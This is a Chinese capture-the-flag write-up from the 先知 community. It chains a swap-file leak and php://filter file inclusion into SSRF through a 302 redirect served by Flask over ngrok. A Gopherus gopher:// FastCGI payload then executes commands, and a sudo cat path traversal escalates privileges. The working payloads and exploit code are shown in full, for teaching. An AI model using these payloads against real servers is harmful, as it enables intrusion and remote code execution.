








# 从302跳转打到fastcgi-先知社区

> **来源**: https://xz.aliyun.com/news/16118  
> **文章ID**: 16118

---

# 从302跳转打到fastcgi

## 前言

最近出了一道题，是从302跳转达到cgi的，最后也只有两解，然后这个更是重量级，经过无数次更新换代，一开始出题人已经做好了一个题目，但是拉了半天 docker，不行，然后找了一些专业的人，还是不行，最后出了一个打 fastcgi 的

不过整体的思路还是非常不错的，当时出题人最乐的就是说自己的题坚持不了 10 分钟，结果最后两个解，还有一个非预期，乐，但是出题人为这道题目可以说付出了非常多的，respect

首先是基础的信息收集  
可以发现后端是 php



然后常规的目录扫描



扫出了 admin.php，但是 302 跳转到了 index.php，应该是有 session 验证这些。然后扫出来了一个信息泄露，下载下来然后用命令看：

```
vim -r index.php.swp

```

这个大家信息泄露就已经学过了

得到如下内容：


所以现在是知道了 guest 的账号密码，登录进行看一下：



这个出题人的特征给的很明显了，经常做 ctf 的都会尝试的文件包含，也就是这个点，正是这个点，结果非预期了，

跟着思路  
可以包含/etc/passwd 和/flag，但是这个/flag 给的是假的

开始尝试包含文件，发现包含 admin.php 文件会直接跳转回 index.php 页面，说明 php 代码是被解析了的，所以可以知道后端就是 Include 函数来包含的，因为这里解析了 php 代码，所以现在就是看如何进行文件包含，并且是需要将其编码输出才能成功文件包含读取代码。  
需要二次编码

```
php://filter/%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=admin.php

```

得到 admin.php 源码

```
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'admin') {
    $_SESSION['error'] = 'Please fill in the username and password';
    header("Location: index.php");
    exit();
}

$url = $_POST['url'];
$error_message = '';
$page_content = '';

if (isset($url)) {
    if (!preg_match('/^https:\/\//', $url)) {
        $error_message = 'Invalid URL, only https allowed';
    } else {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        $page_content = curl_exec($ch);
        if ($page_content === false) {
            $error_message = 'Failed to fetch the URL content';
        }
        curl_close($ch);
    }
}
?>

```

发现是允许跟随 302 跳转的，并且是接受 POST 传参 url 的，但是是加了 session 验证的，所以是需要知道怎么登陆进这个 admin 页面的，所以现在是需要找在哪里可以得到 admin 的账户。继续信息收集，可以在最开始的登录页面的源代码中看到如下代码：


一样的方法读文件

```
<?php
session_start();

$users = [
    'admin' => 'FetxRuFebAdm4nHace',
    'guest' => 'MyF3iend'
];

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if (isset($users[$username]) && $users[$username] === $password) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $username;

        if ($username === 'admin') {
            header('Location: admin.php');
        } else {
            header('Location: guest.php');
        }
        exit();
    } else {
        $_SESSION['error'] = 'Invalid username or password';
        header('Location: index.php');
        exit();
    }
} else {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}

```

admin 的账号和密码都 over 了

直接去登录



就是一个输出框，我们可以进行 ssrf 跳转，看源代码是只有 https 开头的才能跳转，现在需要想的是这里的 ssrf 能打什么，结合题目描述，可以知道这里是打 fastcgi。那么怎么 https 打 302 呢。如果自己有一个域名，那么很好解决，直接跳转一下打 fastcgi 即可。服务器是裸 ip 就要找其他的方法尝试搭建一个临时域名  
使用 ngrok 工具，在服务器上面使用这个工具可以创建一个临时网站。配置方法参考官方文章，在这个临时域名指向的本地服务就需要将其设置为一个 302 跳转来打。具体操作如下：

```
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'http://[IP]/shell.php'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=8080, debug=True)

```

然后 ngrok 用于搭建临时网站的命令

```
生成https临时网站： ngrok http 8080

```

然后就是开启本地服务和端口转发



就可以 302 跳转了

然后题目提示是打 cgi  
Gopherus 可以一把梭哈



然后跳转

```
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/admin.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=8080, debug=True)

```



后面就是反弹 shell 了

这个就不说了，然后是一个实验室师傅出的通配符提权

核心原理就是 cat 支持目录穿越

```
sudo cat /tmp/whereflag/../../../root/flag

```



然后非预期就是打filter链，这个打了很多次了，出题人也防了，但是还是被绕过了
